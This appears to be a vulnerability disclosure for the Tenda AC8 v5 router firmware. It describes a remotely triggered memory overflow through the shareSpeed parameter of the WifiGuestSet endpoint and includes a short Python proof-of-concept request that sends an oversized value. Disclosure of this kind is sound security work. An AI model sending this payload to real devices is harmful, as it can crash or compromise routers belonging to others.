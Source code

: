 # Affected version:

Tenda AC8 v5 V16.03.50.10

download link https://www.tenda.com.cn/download/detail-3803.html



# Vulnerability details:

![image-20240428023352915](1.png)

![image-20240428023352915](2.png)

This Vulnberability can be exploited remotely. The attacker simply  sends a tailored POST request to the target server. Within this request, the attacker inserts a payload containing specific data using the  shareSpeed parameter, triggering a memory overflow. This assault does  not involve any user engagement, making it harder to detect and defend  against.



# show exp

![image-20240428042824724](3.png)

![image-20240428043051621](4.png)



# poc

```
import requests

url = "http://192.168.0.133/goform/WifiGuestSet"

data = {
        b"shareSpeed":b'a'*0x200
    	}
res = requests.post(url=url,data=data)
print(res.content)
```

